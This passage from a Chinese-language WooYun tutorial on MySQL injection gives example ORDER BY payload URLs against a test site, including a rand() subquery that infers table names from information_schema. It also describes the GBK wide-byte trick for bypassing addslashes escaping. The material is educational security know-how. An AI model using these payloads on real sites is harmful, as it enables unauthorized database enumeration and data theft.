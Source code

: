 oder by 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。

一般带有 oder 或者 orderby 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：http://www.test.com/list.php?order=vote  根据 vote 字段排序。

找到投票数最大的票数 num 然后构造以下链接：

```
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc 
```

看排序是否变化。

还有一种方法不需要知道任何字段信息，使用 rand 函数：

```
http://www.test.com/list.php?order=rand(true)

http://www.test.com/list.php?order=rand(false) 
```

以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

```
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128)) 
```

#### 宽字节注入

sql 注入中的宽字节国内最常使用的 gbk 编码，这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。反斜杠()的十六进制为%5c，在你输入%bf%27 时，函数遇到单引号自动转移加入\，此时变为%bf%5c%27，%bf%5c 在 gbk 中变为一个宽字符“縗”。%bf 那个位置可以是%81-%fe 中间的任何字符。不止在 sql 注入中，宽字符注入在很多地方都可以应用。

**Tags:** [mysql](http://drops.wooyun.org/tag/mysql), [注入](http://drops.wooyun.org/tag/%e6%b3%a8%e5%85%a5)

版权声明：未经授权禁止转载 [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：
